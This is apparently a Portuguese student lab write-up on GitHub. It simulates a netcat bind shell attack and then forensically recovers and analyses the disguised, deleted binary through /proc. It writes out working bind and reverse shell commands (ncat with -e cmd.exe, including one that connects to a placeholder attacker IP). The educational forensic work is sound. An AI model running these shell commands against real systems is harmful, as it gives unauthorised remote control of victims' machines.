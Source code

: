 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipo de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc x.x.x.x 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

Com isso, foi possivel ver que o arquivo binário do processo foi apagado, e assim foi necessário recuperar esse arquivo.

- Utilizando o comando:  cp /proc/16725/exe /tmp/recovered_bin

Para saber se a pessoa que atacava o computador da vítima estava utilzando o netcat, podemos comparar as hashes dos dois programas, e assim ver se eles são iguais.

![hashes](https://user-images.githubusercontent.com/44793167/96668117-da7e4b80-1330-11eb-9a5b-cfd2679cfcfd.jpg)

Dessa forma sabemos que o processo era o netcat, só que camuflado.

Além disso, foram realizados outros tipos de análise

![cmdline](https://user-images.githubusercontent.com/44793167/96668463-95a6e480-1331-11eb-9807-40b0c8dade13.jpg)

- Através dessa análise do comand line, é possivel notar que os nomes estão diferentes, sendo características de programas maliciosos, pois esse programa está mascarado com um nome diferente do seu nome original.

![enviro](https://user-images.githubusercontent.com/44793167/96668766-3eedda80-1332-11eb-8571-30c584f46daf.jpg)

- Através do enviroment do processo podemos ver quem ou o que iniciou o processo

![fd](https://user-images.githubusercontent.com/44793167/96668962-ac9a0680-1332-11eb-9623-732d471f28e7.jpg)

- Pelos file descriptors é possivel saber diretórios ou arquivos que o processo está usando para armazenar coisas, juntamente com seus sockets abertos

![maps](https://user-images.githubusercontent.com/44793167/96669192-203c1380-1333-11eb-9b37-159465b2b74f.jpg)

- Pelos process maps é possivel saber que bibliotecas o processo estava utilizando, além de ser possivel que apareçam links para arquivos maliciosos que o processo estava utilizando.

![status](https://user-images.githubusercontent.com/44793167/96669468-ab1d0e00-1333-11eb-9516-595d0121f89a.jpg)

- Nos status do processo é possivel ver o PID dos processos pai desse processo.

Além do bind shell atack, existe o reverse shell atack, onde o computador de ataque fica à espera que o computador da vítima se conecte a ele, ou seja, o computador do atacante só precisa declarar que porta ele estará escutando, e assim o computador do alvo precisa se conectar ao ip e porta do atacante, além transmitir o executável do bash ou cmd.

ex:

   nc -lvp 4444 -> computador de ataque 
   
   C:\Program Files (x86)\Nmap>ncat x.x.x.x 4444 -e cmd.exe


  
